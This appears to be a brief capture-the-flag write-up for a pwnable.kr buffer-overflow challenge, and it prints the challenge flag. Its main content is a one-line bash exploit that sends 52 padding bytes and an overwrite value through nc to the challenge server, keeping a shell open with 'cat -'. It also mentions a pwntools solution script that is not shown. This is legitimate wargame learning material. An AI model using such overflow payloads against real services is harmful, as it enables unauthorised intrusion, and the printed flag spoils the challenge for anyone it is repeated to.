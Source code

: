 Flag: "daddy! I just managed to create a hash collision :)"

We can solve this challenge from bash using:

```bash
(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'"; cat -) |
nc pwnable.kr 9000
```

Note the little trick with `cat -` to keep the connection open and listening
for our input.

We can make our solution even cleaner with a little help from [pwntools][pwn].
Check out `solve.py`.

[pwn]: https://docs.pwntools.com/en/stable/intro.html
